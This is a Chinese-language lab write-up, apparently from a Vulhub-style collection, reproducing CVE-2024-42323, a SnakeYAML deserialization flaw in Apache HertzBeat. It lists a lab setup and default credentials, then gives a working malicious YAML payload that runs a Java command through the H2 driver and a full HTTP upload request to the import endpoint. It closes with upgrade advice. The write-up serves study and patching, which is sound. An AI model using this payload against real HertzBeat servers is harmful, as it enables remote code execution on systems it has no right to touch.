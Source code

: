 h# Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞 CVE-2024-42323

## 漏洞描述

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx

## 漏洞影响

```
Apache HertzBeat < 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311090855824.png)

## 漏洞复现

首先，准备一个恶意 YAML 文件，文件名必须以 `.yaml` 结尾，内容如下：

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

然后登录 HertzBeat 后台，导航到任意监控页面并找到导入按钮，在这里将上面的恶意 YAML 文件导入：

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311090950864.png)

HertzBeat 对 YAML 文件进行反序列化时，触发远程代码执行：

```
POST /api/monitors/import HTTP/1.1
Host: your-ip:1157
Accept-Encoding: gzip, deflate
Accept-Language: en-US
Origin: http://your-ip:1157
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://your-ip:1157/monitors
sec-ch-ua-platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvl3ne8kWpIEZzrNr
Authorization: Bearer eyJhbGciOiJIUzUxMiIsInppcCI6IkRFRiJ9.eJw1jMsKwjAQRf9l1h0wj8akvyIuMs4I8dFKJhVB_HdT0OU593LecGkFJjjFwMLkMPlzQp8dY2S3QwqUKFg23hIMoCv1c-Z7mTsV1U66VplFFdtylRlV6lPqtuYGk9l7E8bReTuAvB5_EdMm6nKTXjj8gsfPF5W5Kao.lj6IwR1vmaTc2T0t2VJlwOCTMJeu4tlOejqygKjtlHV-vj2Ew2Cw5ljUv-9pGxDB_yKnfrKp89i4QhYoQAs8vA
Content-Length: 456

------WebKitFormBoundaryvl3ne8kWpIEZzrNr
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml

!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]

------WebKitFormBoundaryvl3ne8kWpIEZzrNr--
```

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311091514662.png)

命令成功执行：

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311091629839.png)

## 漏洞修复

目前官方已有可更新版本，建议受影响用户升级至最新版本 Apache Hertbeat >= 1.6.0。官方下载地址： https://hertzbeat.apache.org/zh-cn/docs/download/
